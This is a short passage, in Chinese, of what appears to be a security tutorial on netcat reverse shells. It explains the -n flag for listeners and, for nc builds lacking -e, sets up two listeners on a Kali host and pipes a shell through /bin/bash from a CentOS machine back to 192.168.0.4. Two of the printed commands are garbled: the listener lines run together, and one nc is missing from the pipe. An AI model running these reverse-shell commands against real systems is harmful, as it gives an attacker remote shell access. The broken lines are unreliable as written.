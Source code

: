 



注意之前使用nc监听端口反弹shell时都会有一个警告：`Warning: forward host lookup failed for bogon: Unknown host`,根据nc帮助文档的提示加上-n参数就可以不产生这个警告了，-n参数代表在建立连接之前不对主机进行dns解析。



```
nc -nlvp 7777
```





[![bDJ9Ah33Lj.png](Untitled.assets/15319947866197.png)](https://image.3001.net/images/20180719/15319947866197.png)





如果nc不支持-e参数的话，可以利用到linux中的管道符，首先在kali上开启监听：





```
nc -nvlp 6666nc -nvlp 7777
```







[![6Gf87b2g0c.png](Untitled.assets/15319948029399.png)](https://image.3001.net/images/20180719/15319948029399.png)





之后在CentOS上使用nc去反向链接：



```
nc 192.168.0.4 6666|/bin/bash|192.168.0.4 7777
```
